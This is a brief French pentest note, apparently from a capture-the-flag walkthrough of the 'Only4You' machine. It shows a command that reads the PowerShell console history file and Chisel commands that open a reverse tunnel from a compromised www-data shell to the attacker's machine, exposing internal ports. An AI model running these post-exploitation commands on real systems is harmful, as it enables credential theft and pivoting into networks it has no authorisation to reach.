 # bash hystory
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
### Partage des ports de la cible sur ma machine
On utilise *Chisel* https://github.com/jpillora/chisel/releases/tag/v1.9.1
### creation du serveur proxi sur ma machine
└─# 
```
./chisel server -p 8000 --reverse
```

www-data@only4you:/tmp$
```
./chisel client 10.10.17.161:8000 R:127.0.0.1:3000 R:127.0.0.1:8001
```
